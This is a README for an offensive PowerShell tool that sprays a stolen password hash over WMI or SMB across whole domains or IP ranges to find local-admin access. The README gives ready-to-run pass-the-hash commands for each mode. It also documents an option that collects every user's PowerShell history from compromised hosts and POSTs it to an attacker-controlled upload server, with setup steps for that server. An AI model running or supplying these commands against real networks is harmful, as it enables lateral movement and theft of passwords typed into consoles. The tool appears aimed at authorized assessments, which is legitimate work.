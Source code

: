 # Check-LocalAdminHash
Check-LocalAdminHash is a PowerShell tool that attempts to authenticate to multiple hosts over either WMI or SMB using a password hash to determine if the provided credential is a local administrator. It's useful if you obtain a password hash for a user and want to see where they are local admin on a network. It is essentially a Frankenstein of two of my favorite tools along with some of my own code. It utilizes Kevin Robertson's (@kevin_robertson) Invoke-TheHash project for the credential checking portion. Additionally, the script utilizes modules from PowerView by Will Schroeder (@harmj0y) and Matt Graeber (@mattifestation) to enumerate domain computers to find targets for testing admin access against. 

![alt text](http://www.dafthack.com/Check-LocalAdminHash-Example.jpg)

The reason this script even exists is because on an assessment I wanted to gather all the PowerShell console history files (PSReadline) from every system on the network. The PSReadline console history is essentially the PowerShell version of bash history. It can include so many interesting things that people type into their terminals including passwords. So, included in this script is an option to exfiltrate all the PSReadline files as well. There is a bit of setup for this. See the end of the Readme for setup.

For more info read the blog here: https://www.blackhillsinfosec.com/check-localadminhash-exfiltrating-all-powershell-history/


# Examples


### Checking Local Admin Hash Against All Hosts Over WMI
This command will use the domain 'testdomain.local' to lookup all systems and then attempt to authenticate to each one using the user 'testdomain.local\PossibleAdminUser' and a password hash over WMI.
```PowerShell
Check-LocalAdminHash -Domain testdomain.local -UserDomain testdomain.local -Username PossibleAdminUser -PasswordHash E62830DAED8DBEA4ACD0B99D682946BB -AllSystems
```

### Exfiltrate All PSReadline Console History Files
This command will use the domain 'testdomain.local' to lookup all systems and then attempt to authenticate to each one using the user 'testdomain.local\PossibleAdminUser' and a password hash over WMI. It then attempts to locate PowerShell console history files (PSReadline) for each profile on every system and then POST's them to a web server. See the bottom of the Readme for server setup.

```PowerShell
Check-LocalAdminHash -Domain testdomain.local -UserDomain testdomain.local -Username PossibleAdminUser -PasswordHash E62830DAED8DBEA4ACD0B99D682946BB -AllSystems -ExfilPSReadline
```

### Using A CIDR Range
This command will use the provided CIDR range to generate a target list and then attempt to authenticate to each one using the local user 'PossibleAdminUser' and a password hash over WMI.
```PowerShell
Check-LocalAdminHash -Username PossibleAdminUser -PasswordHash E62830DAED8DBEA4ACD0B99D682946BB -CIDR 192.168.1.0/24
```


### Using Target List and SMB and Output to File
This command will use the provided targetlist and attempt to authenticate to each host using the local user 'PossibleAdminUser' and a password hash over SMB.
```PowerShell
Check-LocalAdminHash -Username PossibleAdminUser -PasswordHash E62830DAED8DBEA4ACD0B99D682946BB -TargetList C:\temp\targetlist.txt -Protocol SMB | Out-File -Encoding Ascii C:\temp\local-admin-systems.txt
```


### Single Target
This command attempts to perform a local authentication for the user Administrator against the system 192.168.0.16 over SMB.
```PowerShell
Check-LocalAdminHash -TargetSystem 192.168.0.16 -Username Administrator -PasswordHash E62830DAED8DBEA4ACD0B99D682946BB -Protocol SMB
```

### Check-LocalAdminHash Options
```
Username - The Username for attempting authentication.
PasswordHash - Password hash of the user.
TargetSystem - Single hostname or IP for authentication attempt.
TargetList - A list of hosts to scan one per line
AllSystems - A switch that when enabled utilizes PowerView modules to enumerate all domain systems. This list is then used to check local admin access.
Domain - This is the domain that PowerView will utilize for discovering systems.
UserDomain - This is the user's domain to authenticate to each system with. Don't use this flag if using a local cred instead of domain cred.
Protocol - This is the setting for whether to check the hash using WMI or SMB. Default is 'WMI' but set it to 'SMB' to check that instead.
CIDR - Specify a CIDR form network range such as 192.168.0.0/24
Threads - Defaults to 5 threads. (I've run into some odd issues setting threads more than 15 with some results not coming back.)
ExfilPSReadline - For each system where auth is successful it runs a PowerShell command to locate PSReadLine console history files (PowerShell command history) and then POSTS them to a web server. See the Readme for server setup. 
```

## PSReadline Exfiltration Setup
**This is your warning** that you are about to setup an Internet-facing server that will accept file uploads. Typically, this is a very bad thing to do. So definitely take precautions when doing this. I would recommend **locking down firewall rules** so that only the IP that will be uploading PSReadline files can hit the web server. Also, while we are on the topic of security, this will work just fine with an HTTPS connection so setup your domain and cert so that the PSReadline files are sent encrypted over the network. You have been warned...

  * Setup a server wherever you would like the files to be sent. This server must be reachable over HTTP/HTTPS from each system.

  * Copy the index.php script from this repo and put it in /index.php in the web root (/var/www/html) on your web server.

  * Make an uploads directory

  ``mkdir /var/www/html/uploads
``

  * Modify the permissions of this directory 

  ``chmod 0777 /var/www/html/uploads
``

  * Make sure php is installed

  ``apt-get install php
``

  * Restart Apache
  
  ``service apache2 restart
``

  * In the Check-LocalAdminHash.ps1 script itself scroll down to the "Gen-EncodedUploadScript" function and modify the "$Url" variable right under "$UnencodedCommand". Point it at your web server index.php page. I haven't figured out how to pass the UploadUrl variable into that section of the code that ends up getting encoded and run on target systems so hardcode it for now.

Now when you run Check-LocalAdminHash with the -ExfilPSReadline flag it should attempt to POST each PSReadline (if there are any) to your webserver.

![alt text](http://www.dafthack.com/powershell-history-results.jpg)

## Credits
Check-LocalAdminHash is pretty much a Frankenstein of two of my favorite tools, PowerView and Invoke-TheHash. 95% of the code is from those two tools. So the credit goes to Kevin Robertson (@kevin_robertson) for Invoke-TheHash, and credit goes to Will Schroeder (@harmj0y), Matt Graeber (@mattifestation) (and anyone else who worked on PowerView). Without those two tools this script wouldn't exist. Also shoutout to Steve Borosh (@424f424f) for help with the threading and just being an all around awesome dude.

Invoke-TheHash - https://github.com/Kevin-Robertson/Invoke-TheHash

PowerView - https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1
